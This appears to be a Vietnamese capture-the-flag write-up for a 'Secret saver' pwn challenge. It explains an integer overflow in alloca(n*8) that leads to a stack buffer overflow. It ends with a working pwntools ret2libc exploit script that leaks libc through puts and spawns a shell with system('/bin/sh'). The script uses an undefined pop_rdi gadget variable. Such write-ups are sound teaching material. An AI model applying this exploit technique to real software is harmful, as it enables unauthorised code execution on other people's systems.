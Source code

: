 # IDA
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax
  void *v4; // rsp
  unsigned __int64 v6; // [rsp+8h] [rbp-10h] BYREF
  unsigned __int64 *v7; // [rsp+10h] [rbp-8h]

  init();
  puts("Secret saver!");
  puts("How long is your secret?");
  printf("> ");
  __isoc99_scanf("%lu", &v6);
  v3 = 16 * ((8 * v6 + 23) / 0x10);
  while ( &v6 != (unsigned __int64 *)((char *)&v6 - (v3 & 0xFFFFFFFFFFFFF000LL)) )
    ;
  v4 = alloca(v3 & 0xFFF);
  if ( (v3 & 0xFFF) != 0 )
    *(unsigned __int64 *)((char *)&v6 + (v3 & 0xFFF) - 8) = *(unsigned __int64 *)((char *)&v6 + (v3 & 0xFFF) - 8);
  v7 = &v6;
  printf("Enter your secret: ");
  read_str((__int64)v7, v6);
  return 0;
}
```  

# Source 
```c
#include <stdio.h>
#include <alloca.h>
#include <unistd.h>

void init()
{
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	setbuf(stderr, 0);
}

void read_str(char *buffer, unsigned long int n)
{
	char c;
	unsigned long int i = 0;
	while (i < n)
	{
		read(0, &c, 1);
		if (c == '\n')
			break;
		buffer[i] = c;
		i++;
	}
	buffer[i] = '\0';
}

int main()
{
	char *buffer;
	unsigned long int n;

	init();

	puts("Secret saver!");
	puts("How long is your secret?");
	printf("> ");
	scanf("%lu", &n);

	buffer = alloca(n*8);
	printf("Enter your secret: ");
	read_str(buffer, n);
}
```

* khi nhìn vào source ta thấy có hàm alloca() thì hàm này có chức năng tương tự như malloc là cấp phát bộ nhớ nhưng thay vì nằm trên heap như malloc thì alloca cấp phát bộ nhớ trên stack. ví dụ alloca(16) sẽ cấp phát 16 byte  
* khi nhìn vào source code ta thấy được ```alloca(n*8)``` thì ta phát hiện ở đây là lỗi IOF, ta sẽ lấy một ví dụ sau.

##### ví dụ
```c
#include <stdio.h>

int main()
{
    int a;
    scanf("%d", &a);
    printf("%d", a * 8);
}
```

phạm vi của int là ```-2,147,483,648 tới 2,147,483,647``` và em tính toán ```2147483647/8 = 268435455.875```, em thử với giá trị làm trò xuống ```268435455``` thì ```Output: 2147483640 ``` oke còn trong phạm vi, nhưng nếu e làm tròn lên ```268435456``` thì ```Output: -2147483648```, ta đã tràn phạm vi nên nó thành só âm =)))
* vậy nếu bây giờ, em thử khai báo một biến là long, sau đó gán biểu thức ```a*8``` thì kết quả như thế nào
```c
#include <stdio.h>
int main()
{
    int a;
    scanf("%d", &a);
    long b = a * 8;
    printf("%ld", b);
}
```
```input: 268435456 --- output: -2147483648``` =))) vậy qua phép thử trên và nhiều lần lập trình thì em hiểu là ```a*8``` nghĩa là ```(int) * (int) ```, thì ngôn ngữ C nó sẽ tự ép kiểu theo kiểu dữ liệu có phạm vi lớn nhất trong phép tính, trong trường hợp ``` int * int ``` thì nó sẽ tự hiểu là giá trị sau khi tính sẽ trả về dữ liệu int. Ví dụ trường hợp ```(int) * (long)``` thì giá trị trả về là long.
> từ những phép thử trên ta thấy lỗi IOF ở ```alloca(n * 8) ```
nghĩa là nếu ta nhập n sao cho n * 8 nó tràn ra phạm vi của unsigned long int để trả về giá trị nhỏ, hàm alloca sẽ cấp phát giá trị nhỏ đó và ta vẫn có thể nhập được số lượng kí tự lớn để BOF. 

# Thực thi
* Ở đây mỗi giá trị khác nhau cho ta những payload khác nhau về offset (giá trị nhỏ nhất là 0x2000000000000000), ở đây em chọn 0x2000000000000001
* Chạy thử debug thì ta đã đúng, khi ta đã cấp phát bộ nhớ nhỏ và số lượng kí tự nhập vào lớn  
![image](https://user-images.githubusercontent.com/111769169/222918324-d23d04d7-6676-4b7d-8b7b-77182c08da22.png)  
* việc sau đó là ret2libc
<details> <summary> script </summary>
	
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./iof1_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r, gdbscript='''
                    b*main+267
                    c
                    ''')
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()
    input()
    
    #################
    ### leak libc ###
    #################
    r.sendlineafter(b"> ", b'2305843009213693953')
    payload = b'a' * 40 + p64(pop_rdi) + p64(exe.got['puts'])
    payload += p64(exe.plt['puts']) + p64(exe.sym['main'])
    r.sendlineafter(b'secret: ', payload)

    ######################
    ### tinh base libc ###
    ######################
    leak = u64(r.recvline(keepends=False) + b'\0\0')
    log.info("leak libc: " + hex(leak))
    libc.address = leak - 0x783a0
    log.info("base libc: " + hex(libc.address))
    r.sendlineafter(b"> ", b'2305843009213693953')

    #################
    ### tao shell ###
    #################
    payload = b'a' * 40
    payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
    payload += p64(libc.sym['system'])
    r.sendlineafter(b'secret: ', payload)

    r.interactive()


if __name__ == "__main__":
    main()
```
	
</summary>
